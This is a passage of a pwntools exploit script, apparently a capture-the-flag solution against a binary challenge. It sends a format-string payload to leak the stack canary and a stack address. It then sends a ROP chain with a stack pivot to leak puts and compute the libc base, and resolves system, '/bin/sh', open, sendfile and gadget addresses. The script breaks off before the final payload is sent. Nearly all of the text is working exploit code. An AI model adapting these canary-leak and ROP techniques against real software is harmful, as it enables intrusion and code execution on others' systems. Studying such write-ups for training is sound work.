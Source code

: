 ```python
        gdb.attach(p, '''
            b main
            b func_1
        ''')

elf = ELF(elf_path)
libc = ELF(libc_path)
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
read_addr = elf.plt['read']
bss = elf.bss() + 0x100
MP = 0x40406c
pop_rdi = 0x40119a
pop_rsi_r15 = 0x40119c
ret = 0x40101a
leave_ret = 0x401233
pop_rdx_r12 = 0x11f2e7
pop_rsi = 0x2be51
pop_rdx_ret6 = 0x170337
jmp_rsi = 0x519d1
call_r12 = 0x2b78d
call_rsi = 0x2b8ba
pop_rbp = 0x2a2e0
pop_rsp = 0x35732

p.sendlineafter(b'you go?\n', b'1')
p.recvuntil(b'password:\n')
payload = b'-%11$p-%12$p-'
p.sendline(payload)
recv = p.recvuntil(b'\n').split(b'-')
print(recv)
canary = int(recv[1], 16)
log.info('canary: ' + hex(canary))
stack = int(recv[2], 16)
log.info('stack: ' + hex(stack))
p.recvuntil(b'password:\n')
payload = p64(stack)  + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(0x4012ab)
payload = payload.ljust(0x28, b'a')
payload += p64(canary) + p64(stack - 0x50) + p64(leave_ret)
p.sendline(payload)
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))
'''from LibcSearcher import *
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
open_addr = libc_base + libc.dump('open')
sendfile_addr = libc_base + libc.dump('sendfile')'''
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
open_addr = libc_base + libc.symbols['open']
sendfile_addr = libc_base + libc.symbols['sendfile']
write_addr = libc_base + libc.symbols['write']
pop_rdx_r12 += libc_base
pop_rsi += libc_base
jmp_rsi += libc_base
call_r12 += libc_base
call_rsi += libc_base
pop_rbp += libc_base
pop_rsp += libc_base

```